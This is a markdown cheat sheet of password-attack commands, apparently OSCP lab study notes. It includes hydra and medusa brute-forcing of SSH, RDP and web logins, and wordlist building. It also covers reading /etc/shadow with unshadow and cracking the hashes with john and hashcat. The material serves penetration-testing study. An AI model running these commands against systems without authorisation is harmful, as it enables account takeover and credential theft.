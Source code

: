 # Password Attacks

## references

<http://gchq.github.io/CyberChef/>
<http://openwall.info/wiki/john/sample-hashes>

## dictionary

```bash
/usr/share/wordlists/
/usr/share/seclist/

cewl www.megacorpone.com -m 6 -w megacorpone-cewl.txt
john --wordlist=megacorpone-cewl.txt --rules --stdout > megacorpone-john.txt

crunch 6 8 -f /usr/share/crunch/charset.lst mixalpha-numeric-all-space -o crunch.txt
```

## online

### crackstation

<https://crackstation.net/>

### medusa

```bash
medusa -d
medusa -M http -q

medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin -T 10

```

### hydra

```bash
hydra -l george -P ~/OSCP/rockyou.txt -s 2222 ssh://192.168.161.201
hydra -L ./user.txt -p "SuperS3cure1337#" rdp://192.168.161.202

hydra -l admin -P ~/OSCP/rockyou.txt 192.168.161.201 http-get 

hydra -l admin -P ~/OSCP/rockyou.txt 192.168.161.201 http-post-form "/index.php:fm_usr=^USER^&fm_pwd=^PASS^:Login failed"
hydra 10.1.0.2 http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid Password!" -l admin -P /usr/share/wordlists/rockyou.txt -t 10 -w 30 -o hydra-http-post-form.txt
```

## offline

### hashid

```bash
hashid '$2y$10$XrrpX8RD6IFvBwtzPuTlcOqJ8kO2px2xsh17f60GZsBKLeszsQTBC'
hashid -m hash.txt
hashid -j
```

### john

```bash
unshadow /etc/passwd /etc/shadow > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

### hashcat

```bash
hashcat --help | grep -ni ntlm
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule

hashcat --help | grep -ni \$p 
hashcat -m 400 wp.hash ~/OSCP/rockyou.txt 
```
